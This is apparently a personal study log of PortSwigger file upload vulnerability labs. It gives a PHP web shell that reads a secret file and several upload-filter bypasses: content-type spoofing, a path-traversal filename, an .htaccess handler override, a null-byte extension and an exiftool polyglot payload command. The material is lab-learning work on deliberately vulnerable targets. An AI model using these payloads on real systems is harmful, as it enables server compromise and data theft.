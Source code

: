 It is during our darkest moments that we must focus to see the light. - Aristotle Onassis

# Week into File Upload Vuln Summary:

## Day - 1: Completed Port Swigger - File upload vulnerabilities

Lab 1: Exploiting unrestricted file uploads to deploy a web shell

- cd Desktop - touch try.php - nano try.php
```
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

(https://www.php.net/manual/en/function.file-get-contents.php)

- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 

---

Lab 2: Exploiting flawed validation of file uploads

- Using the previous try.php
- Sending the request to repeater
- Changing the content-type to `image/jpeg`
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 


---

Lab 3: Preventing file execution in user-accessible directories

- Using the previous try.php
- Sending the request to repeater
- Changing the filename to `filename="..%2ftry.php"` - Path Traversal. (Indicates that the file was uploaded to a higher directory in the filesystem hierarchy (/files), and subsequently executed by the server.)
- Navigate to `/files/try.php`
- Submit the secret - Solved.

---

Lab 4: Insufficient blacklisting of dangerous file types

- Using the previous try.php
- Sending the request to repeater
- Notice that php ext is restricted.
- Now in this lab to bypass this blacklist - gotta upload below file. 
	- .htaccess with content `AddType application/x-httpd-php .lol` in it. 
	- with the request we had in the repeater with try.php
	- chaning the filename to `.htaccess` and also the content with `AddType application/x-httpd-php .lol`
	- and uploading the same. 
- Back to same request with `try.php` in repeater - changing the filename to `try.lol`
- Notice that the same has been uploaded.
- Navigate to `/files/avatars/try.lol`
- Submit the secret - Solved.

---

Lab 5: Obfuscating file extensions

- Using the previous try.php
- Sending the request to repeater
- Notice that it says only JPG & PNG files are allowed
- Now in order to bypass this:
	- Chaning the filename to `try.php%00.jpg` - adding nullbyte will strip off the rest and try.php will be uploaded.
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved.

---

Lab 6: Flawed validation of the file's contents

- This is very Interesting lab. In this lab it verifies that if it is a genuine image, hence comes polygot. (Polyglots, in a security context, are files that are a valid form of multiple different file types. - [Vickie li blog](https://vickieli.dev/hacking/polyglot/)) 
- Creating a polyglot PHP/JPG file using exiftool. (normal image, but contains your PHP payload in its metadata.)
	- `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o lmfao.php`
	- Here I downloaded a sample jpg from the internet and used in <YOUR-INPUT-IMAGE>
- Uploaded the lmfao.php
- Navigate to `/files/avatars/lmfao.php`
- Notice the secret is between Start and end in the first line itself
- Submit the secret - Solved.

---

Lab 7: Exploiting file upload race conditions

- Since new to race conditions, simply followed the solution given - also the note in the end of the solution is imp - adding `\r\n\r\n` sequence for GET request. 








